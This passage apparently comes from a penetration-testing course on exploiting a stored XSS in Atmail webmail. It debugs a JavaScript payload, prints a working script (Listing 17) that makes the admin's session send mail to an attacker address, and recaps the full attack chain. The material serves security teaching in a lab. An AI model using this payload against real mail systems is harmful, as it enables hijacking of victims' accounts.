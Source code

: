 Since the code executes without the need for interaction and the HTTP session is legitimate, we should be able to use this to send our test email from one account to another.

Nevertheless, after testing the code from Listing 16, we noticed that it did not work as expected, since the attacker inbox did not receive any emails from the admin account. While we are developing our payloads, we will inevitably make mistakes and should therefore have at least basic familiarity with a browser's debugging tool. For Firefox we can make use of the built-in Developer\ Tools to figure out what went wrong in our example.

In this particular case, if we look at the Console output while logged in to the admin@offsec.local inbox, we can see that there is a syntax error in our atmail_sendmail_XHR.js file. Specifically, it is located on line 7 and character position 74. If we click on the actual file name listed in the console we can also see the entire JavaScript source code, as well as the highlighted line in question.

Figure 11: Using Firefox Developer Tools to debug our payload issue
Figure 11: Using Firefox Developer Tools to debug our payload issue
Figure 11: Debugging JavaScript payloads using developer tools
Figure 11: Debugging JavaScript payloads using developer tools
Thankfully, this is a simple fix, as we just need to close the double quotes after the emailBodyHtml string. Here is our final atmail_sendemail_XHR.js file:

01: var email   = "attacker@offsec.local";
02: var subject = "hacked!";
03: var message = "This is a test email!";
04: function send_email()
05: {
06:     var uri ="/index.php/mail/composemessage/send/tabId/viewmessageTab1";
07:     var query_string = "?emailTo=" + email + "&emailSubject=" + subject + "&emailBodyHtml=" + message;
08:     xhr = new XMLHttpRequest();
09:     xhr.open("GET", uri + query_string, true);
10:     xhr.send(null);
11: }
12: send_email();
Listing 17 - The JavaScript exploit payload

As a recap, here is a summary of our attack vector:

Send an email to admin@offsec.local with a malicious payload in the Date field, that references a JavaScript file on our attacking server
Create a JavaScript file on our attacking server that will be called by the tag described in step 1
Include code in the JavaScript file that will send an email from admin@offsec.local to attacker@offsec.local
Start the simple Python web server from the same directory where the malicious JavaScript file is located
Log in to the admin@offsec.local account to trigger the XSS
Figure 12: Triggering our XSS attack again with our new send email payload
Figure 12: Triggering our XSS attack again with our new send email payload
After executing the entire attack chain, we can log in and view the attacker's inbox, where the email from the admin user has been received!

Figure 13: A wild email appears!
Figure 13: A wild email appears!
Exercise
Recreate the above XSS attack to send an email from the admin account.
